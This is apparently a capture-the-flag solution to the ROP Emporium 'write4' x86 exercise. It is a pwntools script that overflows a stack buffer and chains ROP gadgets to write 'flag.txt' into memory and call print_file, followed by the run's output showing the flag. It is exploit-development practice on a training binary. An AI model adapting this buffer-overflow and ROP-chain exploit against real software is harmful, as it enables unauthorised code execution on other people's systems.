 <br />

```python
from pwn import *

context.log_level = "error"
context.arch = "x86"

p = process("./write432")

# gadgets
pop_edi_ebp = 0x80485aa
mov_edi_ebp = 0x8048543
pop_ret = 0x08048386

data_area = 0x804a018
print_file = 0x080483d0
flag = [b"flag", b".txt"]

pay = flat(
	b"A"*44,

	pop_edi_ebp, data_area, flag[0],   # edi = [data], ebp = "flag"
	mov_edi_ebp,					   # [data] = "flag"

	pop_edi_ebp, data_area+4, flag[1], # edi = [data+4], ebp = ".txt"
	mov_edi_ebp,					   # [data+4] = ".txt"

	print_file, pop_ret, data_area     # print_file("flag.txt")
)

p.sendline(pay)
p.interactive()
```
```bash
$ python3 test.py
write4 by ROP Emporium
x86

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```

